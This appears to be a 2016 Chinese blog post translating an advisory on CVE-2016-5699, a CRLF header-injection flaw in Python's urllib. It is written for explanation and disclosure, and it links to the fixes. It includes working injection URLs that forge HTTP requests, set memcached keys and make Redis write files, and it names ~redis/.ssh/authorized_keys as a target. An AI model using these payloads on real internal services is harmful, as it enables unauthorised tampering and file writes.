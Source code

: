 ```yaml
---
id: 749
layout: post
title: 'Python urllib HTTP头注入漏洞'
date: 2016-06-17 19:34:00
author: virusdefender
tags: 
---
```


已经发在了乌云知识库 http://drops.wooyun.org/papers/16905


## 总览

Python的urllib库（在Python2中为`urllib2`，在Python3中为`urllib`）有一个HTTP协议下的协议流注入漏洞。如果攻击者可以控制Python代码访问任意URL或者让Python代码访问一个恶意的web server，那这个漏洞可能会危害内网服务安全。

## 问题在哪

HTTP协议解析host的时候可以接受百分号编码的值，解码，然后包含在HTTP数据流里面，但是没有进一步的验证或者编码，这就可以注入一个换行符。

```python
#!/usr/bin/env python3

import sys
import urllib
import urllib.error
import urllib.request

url = sys.argv[1]

try:
    info = urllib.request.urlopen(url).info()
    print(info)
except urllib.error.URLError as e:
    print(e)
```

这段代码只是从命令行参数接收一个URL，然后去访问它。为了查看`urllib`获取的HTTP头，我们用一个nc来监听端口。

```
nc -l -p 12345
```

在正常的代码中，我们可以这样访问

```
./fetch3.py http://127.0.0.1:12345/foo
```

返回的HTTP头是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Connection: close
Host: 127.0.0.1:12345
```

然后我们使用恶意构造的地址

```
./fetch3.py http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo
```

返回的HTTP头就是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
X-injected: header
x-leftover: :12345
Connection: close
```

然后攻击者可以任意注入HTTP头了。

这个攻击在使用域名的时候也可以进行，但是要插入一个空字节才能进行DNS查询。比如说，下面的URL进行解析会失败的。

```
http://localhost%0d%0ax-bar:%20:12345/foo
```

但是下面的URL是可以正常解析并访问到127.0.0.1的

```
http://localhost%00%0d%0ax-bar:%20:12345/foo
```

要注意的是HTTP重定向也可以利用这个漏洞，如果攻击者提供的URL是一个恶意的web server，然后服务器可以重定向到其他的URL也可以导致协议注入。

## 攻击面

下面会讨论几个可能导致严重后果的攻击方式。当然还远远不够，攻击都需要特定的场景，有很多不同的方法可以利用，还不能确定有没有其他的利用方式。

### HTTP头注入和请求伪造

这个攻击方式由来已久了，但是和[以前的请求伪造](http://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf
)不同的是，这里仅仅是可以注入额外的HTTP头和请求方法。当然当前场景下，能够提交不同的HTTP方法和请求数据就已经很有用了，比如说原始的请求是这样的

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: close
```

攻击者可以注入一个额外的完整的HTTP请求头

```
http://127.0.0.1%0d%0aConnection%3a%20Keep-Alive%0d%0a%0d%0aPOST%20%2fbar%20HTTP%2f1.1%0d%0aHost%3a%20127.0.0.1%0d%0aContent-Length%3a%2031%0d%0a%0d%0a%7b%22new%22%3a%22json%22%2c%22content%22%3a%22here%22%7d%0d%0a:12345/foo
```

这个的响应是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: Keep-Alive

POST /bar HTTP/1.1
Host: 127.0.0.1
Content-Length: 31

{"new":"json","content":"here"}
:12345
Connection: close
```

demo中注入的完整的请求头在Apache HTTPD下是工作的，但是其他的server不一定能正确的解析或者利用。这种攻击可以用在内网攻击上，比如未授权的REST、SOAP或者类似的服务[Exploiting Server Side Request Forgery on a Node/Express Application (hosted on Amazon EC2)](http://sethsec.blogspot.com/2015/12/exploiting-server-side-request-forgery.html)

### 攻击memcached

在[memcached文档](https://github.com/memcached/memcached/blob/master/doc/protocol.txt)中，memcached会开放几个简单的网络协议接口供缓存数据读取和存储使用。一般来说，这种mamcached都是部署在应用服务器上，这样多个实例之间共享数据或者进行一些操作就会比较快，不用进行数据库操作了。要注意的是，memcached默认是都没有密码保护的。开发者或者管理员一般也是认为内网的应用是无法被攻击的。

这样，如果我们可以控制内网的Python访问一个URL，然后我们就可以轻松的访问memcached了，比如

```
http://127.0.0.1%0d%0aset%20foo%200%200%205%0d%0aABCDE%0d%0a:11211/foo
```

就会产生下面的HTTP头

```
GET /foo HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
set foo 0 0 5
ABCDE
:11211
```

当检查下面几行memcached的协议语法的时候，大部分都是语法错误，但是memcached在收到错误的命令的时候并不会关闭连接，这样攻击者就可以在请求的任何位置注入命令了，然后memcached就会执行。下面是memcached的响应（memcached是Debian下包管理默认配置安装的）

```
ERROR
ERROR
ERROR
ERROR
ERROR
STORED
ERROR
ERROR
```

经过确认，memcached中确实成功的插入了`foo`的值。这种场景下，攻击者就可以给内网的memcached实例发送任意命令了。如果应用依赖于memcached中存储的数据（比如用户的session数据，HTML或者其他的敏感数据），攻击者可能获取应用更高的权限了。这个利用方式还可以造成拒绝服务攻击，就是攻击者可以在memcached中存储大量的数据。

### 攻击Redis

Redis和memcached很相似，因为都提供了数据备份存储，一些内置数据类型，还能执行Lua脚本。前几年Quite a bit公布了攻击Redis的一些方法（[链接1](https://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/) [链接2](http://antirez.com/news/96) [链接3](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)）。和memcached类似，Redis提供了TCP协议的接口，然后也可以执行一堆错误命令中的正确命令。另外，还可以利用Redis在写任意文件，攻击者可以控制一部分文件内容。比如下面的URL在`/tmp/evil`下创建了一个数据库文件。

```
http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0aSET%20foo%20bar%0d%0aSAVE%0d%0a:6379/foo
```

然后可以看到刚才存储的一些键值对数据

```
# strings -n 3 /tmp/evil
REDIS0006
foo
bar
```

理论上，攻击者就可以利用Redis创建或者改写一些敏感文件了，包括

```
 ~redis/.profile
 ~redis/.ssh/authorized_keys
...
```

## 多版本的Python都受到影响

Python 2和3版本都受到影响，Cedric Buissart 提供了修复问题的部分信息。

3.4 / 3.5 : [revision 94952](https://hg.python.org/cpython/rev/bf3e1c9b80e9)
2.7 : [revision 94951](https://hg.python.org/cpython/rev/1c45047c5102)

虽然已经在最新的版本中修复了，但是很多系统的稳定版是没法得到修复的，比如最新的Debian Stable就还存在这个漏洞。

## 我的一点思考

Redis和memcached的开发者提供的默认配置是没有密码的，这个是不负责任的。当然，我能理解他们认为这些东西应该在"可信的内网"中使用。问题，实际上很少的内网能比外网更安全。未授权的服务即使监听在localhost，也会受到影响的。在安装过程中加一个随机生成的密码也并不难，开发者应该严肃的面对安全问题。

## 注

 - 这个漏洞编号是 CVE-2016-5699，RedHat给申请的 http://www.openwall.com/lists/oss-security/2016/06/14/7
 - 以前Python bugs中的讨论 https://bugs.python.org/issue22928
 
 
原文 http://blog.blindspotsecurity.com/2016/06/advisory-http-header-injection-in.html


